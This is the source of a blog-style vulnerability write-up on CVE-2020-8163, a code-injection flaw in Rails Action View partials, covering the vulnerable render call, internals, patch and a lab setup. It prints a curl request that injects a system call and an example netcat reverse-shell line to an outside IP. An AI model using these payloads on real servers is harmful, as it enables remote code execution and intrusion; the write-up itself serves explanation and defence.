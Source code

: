 ```yaml
---
layout: post
title:  "CVE-2020-8163"
summary: "Potential Remote Code Execution in Action View"
date: 2020-08-22 00:13:37
image: /assets/profile.png
author: tim_koopmans
categories: ruby
tags:
 - security
---
```

# Potential Remote Code Execution in Action View

If you **pass user parameters as local variables** into partials on affected versions of Rails, it is possible for attackers to perform remote code execution. From there, _really_ bad things happen.
{: .critical }

<script id="asciicast-VVnc3ItIsDe7PgbRxtASUByTH" src="https://asciinema.org/a/VVnc3ItIsDe7PgbRxtASUByTH.js" async></script>
<table>
  <thead>
    <tr>
      <th>Related Code</th>
      <th>Affected Versions</th>
      <th>Patched Versions</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>
        <i class="devicon-ruby-plain"></i>
        <a href="https://api.rubyonrails.org/classes/ActionView.html">ActionView</a>
      </td>
      <td>
        All
      </td>
      <td>
        < 5.0.1
      </td>
    </tr>
  </tbody>
</table>

## Vulnerability[^fn-nist]

The `locals` argument to rendering a partial, does not sanitize user input. A vulnerable call to a partial template will look something like this:

```erb
<%= render partial: 'flag', locals: params %>
```

## Weakness

This vulnerability lets an attacker [inject code](http://cwe.mitre.org/data/definitions/94.html) which can lead to remote code execution.

## Attack

The attacking request will look something like this[^fn-demo]:

{% highlight bash %}
{% raw %}
curl http://target/users/index?system(%27whoami%27)%0A%23"
{% endraw %}
{% endhighlight %}

Since the query parameter contains arbitrary code and the targeted controller renders a partial view with local variables, this same code can potentially be executed on the target platform as a system call. Other variants[^fn-analysis] to this attack might include the use of \``backticks`\`.

## Analysis

The `ActionView::Template` class has a protected method called `compile` which sets the encoding of the compiled template for the view. Within this method, the dynamic views created by partials are eval'd into the encoded view. It does this by [building a string](https://github.com/rails/rails/blob/v5.0.0/actionview/lib/action_view/template.rb#L287-L293) which is a dynamic method that uses `module_eval` to [evaluate the string in the context of module](https://apidock.com/ruby/Module/module_eval). This is how the attacker is able to run arbitrary code.

The dynamic string that is built will look something like this at run time:

```ruby
def _app_views_users__unsafe_html_erb___2814227942932613306_70032701656460(local_assigns, output_buffer)
  _old_virtual_path, @virtual_path = @virtual_path, "users/_unsafe"
  _old_output_buffer = @output_buffer
  action = action = local_assigns[:action]
  controller = controller = local_assigns[:controller]
  system('nc 192.168.1.104 4443 -e /bin/bash')
  #
  ...
ensure
  @virtual_path, @output_buffer = _old_virtual_path, _old_output_buffer
end
```

You can see in this example, the system method where the attacker then uses netcat to perform a reverse shell from within your server environment. This would of course depend on you having netcat installed, but given the attacker could chain these system calls, they could perform the necessary steps through remote code execution.

So how did this system call get into the dynamically eval'd method above in the first place?

The first thing the attacker would need, is for you to be rendering partials with the locals argument:

```erb
<%= render partial: 'flag', locals: params %>
```

When the `compile` method builds the aforementioned string, it makes another call to the `locals_code` [method in the same class](https://github.com/rails/rails/blob/v5.0.0/actionview/lib/action_view/template.rb#L327-L330) which looks like this:


```ruby
def locals_code #:nodoc:
  # Double assign to suppress the dreaded 'assigned but unused variable' warning
  @locals.each_with_object('') { |key, code| code << "#{key} = #{key} = local_assigns[:#{key}];" }
end
```

You can see here, that the `@locals` array iterates over each item and concatenates it to the string object. If the attacker passed in a parameter such as `system(%27whoami%27)%0A%23` then the resulting string will look something like:

```ruby
system(\'nwhoami\')
# = system(\'nwhoami\')
# = local_assigns[:system(\'nwhoami\')
```

By properly encoding the parameter, and appending a new line `%0A` followed by a hash `%23` the attacker is able to create a syntactically correct, dynamic method which is when evaluated, executes their system call.

A more simple demonstration with Ruby looks like this:

```ruby
source = 'def dynamic_method
  system(\'whoami\')
  #
end'

class Thing
end

Thing.module_eval(source)

irb(main):052:0> Thing.new.dynamic_method
root
```

## Fix

The best fix for this, is to upgrade Rails to a patched version.

The patch itself, sanitizes items in the `@locals` array of the `locals_code` method with something like this:

```ruby
+        locals = @locals.to_set - Module::DELEGATION_RESERVED_METHOD_NAMES
+        locals = locals.grep(/\A(?![A-Z0-9])(?:[[:alnum:]_]|[^\0-\177])+\z/)
```

The vulnerability can also be mitigated by making sure you do not render partials with user provided parameters with something like this instead:

```erb
<%= render partial: 'flag', locals: { user: @user } %>
```

# Research

You can re-create this in a [CVE laboratory environment](https://github.com/correkthorse/rails-cve-testing) using Docker.

    CVE=CVE-2020-8163 RAILS_VERSION=4.2.11.1 make lab

# References

[^fn-nist]: [First published at NVD on 7 February 2020](https://nvd.nist.gov/vuln/detail/CVE-2020-8163)
[^fn-demo]: [CVE-2020-8163 - Remote code execution of user-provided local names in Rails](https://github.com/sh286/CVE-2020-8163)
[^fn-analysis]: [CVE-2020-8163: Partial Remote Code Execution](https://medium.com/@qazbnm456/cve-2020-8163-partial-remote-code-execution-c6f46bcdef2)
